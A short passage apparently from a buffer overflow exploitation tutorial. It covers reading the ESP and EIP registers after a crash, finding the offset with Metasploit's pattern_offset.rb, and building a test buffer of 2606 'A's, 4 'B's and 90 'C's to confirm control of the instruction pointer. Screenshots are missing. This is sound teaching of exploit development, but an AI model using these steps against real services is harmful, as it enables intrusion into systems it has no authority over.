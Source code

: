 Note both the ESP and EIP register values in this next crash.

![](media/d4ccb9b2899f58728b99232ceb44dd8d.png)

39 69 44 38 (equivalent to the string 8Di9)

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb

![](media/95f5ee84d9a371e3edd090e4bbe3512a.png)

buffer = “A” \* 2606 + “B” \* 4 + “C” \* 90
